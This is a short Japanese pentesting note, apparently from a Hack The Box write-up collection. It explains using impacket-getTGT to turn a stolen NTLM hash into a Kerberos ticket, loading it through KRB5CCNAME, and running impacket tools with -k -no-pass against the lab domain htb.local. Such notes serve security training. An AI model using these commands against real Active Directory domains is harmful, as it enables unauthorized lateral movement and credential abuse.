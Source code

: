 # Pass The Hashがいけそでいけねー場合はPass The Ticketを狙うべし

Kerberosチケットでの認証は許可されていて、NTLMでの認証は許可されていないかも。

**impacket-getTGT** でハッシュからTGTを作成。

```
impacket-getTGT -hashes <NTLM hash> -dc-ip <IP> <domain>/<username>
```

その後、チケットがつくれてuser.ccacheに保存されたら、以下のようにチケットを登録する：

```
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
```

チケットができたら、今までpass the hashでやっていたimpacketを、このチケットをつかって行えばよい（オプション **-no-pass -k**）。

Aptではbruteforceした：

![gettgtbrute](https://user-images.githubusercontent.com/85237728/159113359-050c0e98-259d-406a-aff3-7230cc59e61a.png)

c.f. https://www.thehacker.recipes/ad/movement/kerberos/ptk

![gotticket](https://user-images.githubusercontent.com/85237728/159119239-5d4bf0fc-c1ed-4e54-9b3c-d47a97ff4ae1.png)

![klist](https://user-images.githubusercontent.com/85237728/159119325-89e415d6-1ce0-4296-930a-093bd0adb96d.png)

例：

```
impacket-smbclient -dc-ip apt -k -no-pass htb.local/henry.vinson@apt
```
